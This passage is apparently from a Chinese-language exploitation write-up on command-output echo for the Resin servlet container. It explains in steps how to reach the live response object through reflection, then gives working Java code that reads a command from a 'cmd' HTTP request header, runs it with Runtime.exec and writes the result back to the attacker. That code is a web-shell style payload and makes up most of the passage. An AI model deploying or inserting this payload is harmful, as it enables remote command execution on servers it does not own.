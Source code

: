 

回显思路

- 反射调用ServletInvocation.getContextRequest()获取HttpServletRequestImpl对象
- 反射获取_response字段得到response对象
- 反射调用reponse对象的getWriter方法获取PrintWriter对象
- 通过PrintWriter对象的write方法写入需回显内容



代码实现

```java
// 反射调用ServletInvocation.getContextRequest()获取HttpServletRequestImpl对象
Object currentRequest = Thread.currentThread().getContextClassLoader().loadClass("com.caucho.server.dispatch.ServletInvocation").getMethod("getContextRequest").invoke(null);
// 反射获取_response字段（response对象）
Field _responseF = currentRequest.getClass().getDeclaredField("_response");
_responseF.setAccessible(true);
Object response = _responseF.get(currentRequest);
// 获取getWriter方法
Method getWriterM = response.getClass().getMethod("getWriter");
// 调用getWriter获取Writer对象
Writer writer = (Writer)getWriterM.invoke(response);
// 获取getHeader方法
Method getHeaderM = currentRequest.getClass().getMethod("getHeader", String.class);
// 调用getHeader获取到通过需执行的命令：cmd
String cmd = (String)getHeaderM.invoke(currentRequest, "cmd");
// 执行命令
Scanner scanner = (new Scanner(Runtime.getRuntime().exec(cmd).getInputStream())).useDelimiter("\\A");
// 写入命令执行结果并回显
writer.write(scanner.hasNext() ? scanner.next() : "");
```

#### Resin 3.x

​	在resin 3.X中跟一下如何获取response对象

- com.caucho.server.http.HttpRequest#handleRequest

  ![image-20220105161112694](img/image-20220105161112694.png)
